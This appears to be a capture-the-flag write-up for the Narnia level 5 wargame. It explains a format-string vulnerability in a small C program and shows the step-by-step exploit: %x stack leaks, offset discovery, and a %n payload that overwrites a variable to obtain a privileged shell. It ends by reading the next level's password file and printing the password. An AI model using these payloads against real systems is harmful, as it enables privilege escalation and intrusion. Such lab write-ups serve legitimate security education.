 ```c
    snprintf(buffer, sizeof buffer, argv[1]);
    buffer[sizeof (buffer) - 1] = 0;
    printf("Change i's value from 1 -> 500. ");

    if(i==500){
            printf("GOOD\n");
    setreuid(geteuid(),geteuid());
            system("/bin/sh");
    }

    printf("No way...let me give you a hint!\n");
    printf("buffer : [%s] (%d)\n", buffer, strlen(buffer));
    printf ("i = %d (%p)\n", i, &i);
    return 0;
}
```
The first thing that I notice is I need to overwrite the value of i to 500 to gain control of the shell, however, i is hardcoded to 1. I also notice a format string vulnerability with sprintf() as there is no format specifier provided. I confirmed this with the following payload:
```bash
narnia5@gibson:/narnia$ ./narnia5 %x.%x.%x
Change i's value from 1 -> 500. No way...let me give you a hint!
buffer : [f7fc7500.30303537.3330332e] (26)
i = 1 (0xffffd3b0)
```
which indicates a format string vulnerability since addresses like f7fc7500 are being leaked from the buffer output.
I noticed that the address of i changed depending on the payload the program was given.
Base address was 0xffffd380
Starting from $(python3 -c 'import sys;sys.stdout.buffer.write(b"A"*72)'), every 16 characters, address of i decrements by 10
'$(python3 -c 'import sys;sys.stdout.buffer.write(b"A"*72)')' -> 0xffffd370
'$(python3 -c 'import sys;sys.stdout.buffer.write(b"A"*88)')' -> 0xffffd360

Using the following payload:
```bash
narnia5@gibson:/narnia$ ./narnia5 AAAA.%x.%x.%x.%x.%x.%x.%x.%x
Change i's value from 1 -> 500. No way...let me give you a hint!
buffer : [AAAA.41414141.3431342e.34313431.34332e31.34333133.332e6532.3331] (63)
i = 1 (0xffffd3a0)
```
we find that AAAA is the 1st argument on the stack because 41414141 is AAAA in hex. Now that we know this, we can use %n to overwrite memory on the stack, and the piece of memory that we need to overwrite is the address of i.

We'll start with a simple payload:
```bash
$(python3 -c 'import sys;sys.stdout.buffer.write(b"\xb0\xd3\xff\xff%n")')
```
This changed the value of i to 4, because %n uses the number of bytes it has read so far:
```bash
narnia5@gibson:/narnia$ ./narnia5 $(python3 -c 'import sys;sys.stdout.buffer.write(b"\xb0\xd3\xff\xff%n")')
Change i's value from 1 -> 500. No way...let me give you a hint!
buffer : [����] (4)
i = 4 (0xffffd3b0)
```
Now we can use a neat trick to write large values:
```bash
narnia5@gibson:/narnia$ ./narnia5 $(python3 -c 'import sys;sys.stdout.buffer.write(b"\xb0\xd3\xff\xff%496d%1$n")')
Change i's value from 1 -> 500. GOOD
$ whoami
narnia6
$ cat /etc/narnia_pass/narnia6    
BNSjoSDeGL
```